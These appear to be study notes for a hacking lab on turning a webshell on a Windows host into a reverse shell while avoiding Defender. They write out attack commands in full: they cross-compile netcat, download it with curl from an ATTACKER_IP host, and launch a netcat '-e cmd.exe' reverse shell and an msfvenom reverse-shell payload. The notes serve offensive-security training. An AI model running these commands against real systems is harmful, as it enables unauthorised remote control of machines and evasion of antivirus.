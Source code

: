 Our webshell is all well and good, but let's go for a full reverse shell!

Unfortunately, we have a problem. Unlike in Linux where there are usually many ways to obtain a reverse shell, the options in Windows are a lot fewer in number as Windows tends not to have many scripting languages installed by default.

Realistically we have several options here:

- **Powershell** tends to be the go-to for Windows reverse shells. Unfortunately Defender knows exactly what PowerShell reverse shells look like, so we'd have to do some serious obfuscation to get this to work.
- We could try to get a **PHP reverse shell** as we know the target has a PHP interpreter installed. Windows PHP reverse shells tend to be iffy though, and again, may trigger Defender.
- We could generate an **executable reverse shell using msfvenom**, then upload and activate it using the webshell. Again, msfvenom shells tend to be very distinctive. We could use the [Veil Framework](https://www.veil-framework.com/) to give us a meterpreter shell executable that might bypass Defender, but let's try to keep this manual for the time. Equally, [shellter](https://www.shellterproject.com/) (though old) might give us what we need. There are easier options though.
- We could upload **netcat**. This is the quick and easy option.

The only problem with uploading netcat is that there are hundreds of different variants -- the version of netcat for Windows that comes with Kali is known to Defender, so we're going to need a different version. Fortunately there are many floating around! Let's use one from github, [here](https://github.com/int0x33/nc.exe/).

## Clone the repository  

`git clone https://github.com/int0x33/nc.exe/`  

This repository already contains pre-compiled netcat binaries for both 32 and 64 bit systems, however, this is an ideal time to talk about cross-compilation techniques. If you'd prefer to just use the default binaries then just skip to the last section of this task and use the `nc64.exe` binary from the repository.

## Cross compilation

Cross compilation is an essential skill -- although in many ways it's preferable to avoid it.

First up: what is cross compilation? The idea is to compile source code into a working program to run on a different platform. In other words, cross compilation would allow us to compile a program for a different Linux kernel, a Windows program on Kali (as we're doing here), or even software for an embedded device or phone.

Whilst cross-compilation is a very useful skill to have, it's often difficult to get completely correct. Ideally we should always try to compile our code in an environment as close to the target environment as possible. For example, if an exploit or program is designed to work on CentOS 7.2, we should try to compile it in a CentOS 7.2 VM if possible. Equally, it's essential that we get the same arch as that of the target -- a 64 bit program won't work very well on a 32 bit target!

Sometimes it's easiest to just cross-compile, however. Generally speaking we cross compile x64 Windows programs on Kali using the `mingw-w64` package (for x64 systems). This is not installed on Kali by default, however it is available in the Kali apt repositories:  
`sudo apt install mingw-w64`  

This is a big package, but once it's installed we can start re-compiling netcat.

Much like we use `gcc` to compile binaries on Linux, we can use the `mingw` compilers to compile Windows binaries. These tend to have very descriptive (read: long) names, but the one that's of particular importance to us here is `x86_64-w64-mingw32-gcc`. This specifies that we want to compile a 64bit binary.  

Inside the nc.exe repository we downloaded, delete or move the two pre-compiled netcat binaries. The repository provides a makefile which we can use (with some small alterations) to compile the binary. Open up the `Makefile` with your favourite text editor. The first two lines specify which compiler to use:

![[499921a44689.webp]]

Neither of these are quite what we're looking for, so comment out the first line and add another line underneath:  
`CC=x86_64-w64-mingw32-gcc`

![[d71f7f2fcb0e.webp]]

Now when we run `make` to build the binary, the correct compiler will be used to generate a x64 Windows executable. Note that there will be a lot of warnings generated by the compiler (these have been redirected to `/dev/null` in the following screenshot for readability, however, you do not need to do this). These are nothing to worry about; the compilation should still be successful.

![[b29a99fd33fd.webp]]

## Uploading nc.exe to the target

With a copy of netcat available, we now need to get it up to the target.

Start a Python webserver on your #Attacking_Machine (as demonstrated numerous times previously):  
`sudo python3 -m http.server 80   `

Despite it often being much harder to upload binaries to Windows than it is to upload to Linux, we do have a few options here.

- Powershell _might_ work, but with AMSI in play it's a risk.
- We could use the file upload point that we originally exploited to upload an unrestricted PHP file uploader (in the same way that we uploaded the original webshell, although this would be a bit of a pain with embedding the uploader in an image).
- We could look for other command line tools installed on the target such as `curl.exe` or `certutil.exe`, both of which might allow for a file upload.

Try to execute both of this in the webshell -- both should work.

> [!Question]
>What output do you get when running the command: `certutil.exe`?
>`CertUtil: -dump command completed successfully.`


## Certutil

Certutil is a default Windows tool that is used to (amongst other things) download CA certificates. This also makes it ideal for file transfers, _but_ Defender flags this as malicious.

Instead we'll stick with trusty old cURL.

## cURL

From #Webshell  use cURL to upload your new copy of netcat to the target:

`curl http://ATTACKER_IP/nc.exe/nc64.exe -o c:\\windows\\tasks\\nc-USERNAME.exe   `

> [!info]
>The room says to use the temp folder within Windows, however, I had trouble with that, a much safer and more guaranteed option is to use the tasks folders as that’s world writable.

> [!Note]
>Note the double backslashes used here. This is purely due to how the webshell handles backslashes. We need to escape the backslashes so that they are passed in as a part of the command, as opposed to escaping the letters immediately after them.

We now have everything we need to get a reverse shell back from this target.

Set up a netcat listener on your #Attacking_Machine 
`sudo nc -lvnp 443`

In your #webshell, use the following command:

`powershell.exe c:\\windows\\task\\nc-USERNAME.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe   `

e.g.  
`powershell.exe c:\\windows\\tasks\\nc-MuirlandOracle.exe 10.50.73.2 443 -e cmd.exe   `

This should result in a reverse shell from the target!

![[ac7e2a438cd5.webp]]

> [!Note]
>In order for this to work we had to wrap the netcat command inside a powershell process to keep it from exiting early.

**Bonus Question (optional):** Try generating a metasploit reverse shell and transfer it to the target (`msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=ATTACKING_IP LPORT=CHOOSE_A_PORT`) -- make sure to place it in a directory you can list (e.g. the Uploads directory of the webserver). This shell will get picked up by Defender (so don't do it anywhere else!), but it will give you a feel for how antivirus operates when it detects your payload as being malicious.

You should get an error message when trying to execute the executable and the exe will also disappear from the current directory (placed into quarantine by the AV). At this point the Administrator has also been alerted, along with the security team in a bigger organisation.

**Next sep: ** [[AV EVASION/Enumeration|Enumeration]]


